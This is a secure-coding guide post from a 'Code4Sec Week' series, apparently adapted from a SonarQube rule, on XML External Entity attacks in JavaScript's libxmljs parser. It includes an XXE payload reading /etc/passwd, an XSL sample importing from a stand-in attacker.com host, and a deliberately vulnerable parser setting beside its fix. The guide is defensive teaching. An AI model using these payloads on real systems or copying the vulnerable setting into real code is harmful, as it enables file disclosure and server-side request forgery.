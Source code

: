 # [Code4Sec Week](https://www.facebook.com/hashtag/code4sec) / Day 4 - XML External Entities (XXE) in JavaScript.
[#NEIS0736](https://www.facebook.com/hashtag/neis0736) [#NECS0736](https://www.facebook.com/hashtag/necs0736)

![JavaScript](/images/JS.gif)

## XML parsers should not be vulnerable to XXE attacks

XML specification allows the use of entities that can be internal or external (file system / network access ...) which could lead to vulnerabilities such as confidential file disclosures or SSRFs.

Example in this XML document, an external entity read the /etc/passwd file:

```
<?xml version="1.0" encoding="utf-8"?>
  <!DOCTYPE test [
    <!ENTITY xxe SYSTEM "file:///etc/passwd">
  ]>
<note xmlns="http://www.w3schools.com" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
  <to>&xxe;</to>
  <from>Jani</from>
  <heading>Reminder</heading>
  <body>Don't forget me this weekend!</body>
</note>
```

In this XSL document, network access is allowed which can lead to SSRF vulnerabilities:

```
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.attacker.com/evil.xsl">
  <xsl:import href="http://www.attacker.com/evil.xsl"/>
  <xsl:include href="http://www.attacker.com/evil.xsl"/>
 <xsl:template match="/">
  &content;
 </xsl:template>
</xsl:stylesheet>
It is recommended to disable access to external entities and network access in general.
```

**Noncompliant Code Example**

libxmljs module:

```
const libxmljs = require("libxmljs");
var fs = require('fs');

var xml = fs.readFileSync('xxe.xml', 'utf8');

var xmlDoc = libxmljs.parseXmlString(xml, { noblanks: true, noent: true, nocdata: true }); // Noncompliant: noent set to true
```

**Compliant Solution**

libxmljs module:

```
const libxmljs = require("libxmljs");
var fs = require('fs');

var xml = fs.readFileSync('xxe.xml', 'utf8');

var xmlDoc = libxmljs.parseXmlString(xml); // Compliant: noent set to false by default
```

**See**

* OWASP Top 10 2017 Category A4 - XML External Entities (XXE)
* OWASP XXE Prevention Cheat Sheet
* MITRE, CWE-611 - Information Exposure Through XML External Entity Reference
* MITRE, CWE-827 - Improper Control of Document Type Definition

**แหล่งที่มา**

[<img src="/images/sonarqube.svg" alt="SonarQube" height="50">](https://rules.sonarsource.com/javascript/RSPEC-2755)
